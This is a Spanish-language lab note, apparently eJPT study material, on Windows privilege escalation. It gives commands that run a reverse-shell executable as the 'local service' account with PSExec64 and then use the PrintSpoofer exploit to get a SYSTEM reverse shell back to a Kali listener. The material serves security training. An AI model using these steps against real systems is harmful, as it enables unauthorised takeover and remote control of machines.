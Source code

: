 - Comience un oyente en Kali. Simule la obtención de un shell de cuenta de servicio iniciando sesión en RDP como usuario administrador, iniciando un símbolo del sistema elevado (haga clic derecho -> ejecutar como administrador) y utilizando PSExec64.exe para activar el ejecutable reverse.exe que creó con los permisos de la cuenta "servicio local:  

```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

- Comience otro oyente en Kali.

- Ahora, en el shell inverso "servicio local" que activó, ejecute el exploit PrintSpoofer para activar un segundo shell inverso que se ejecuta con privilegios SYSTEM (actualice la dirección IP con su IP Kali en consecuencia):

```
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Token Impersonation - Rogue Potato]]
[[Generate a Reverse Shell Executable]]
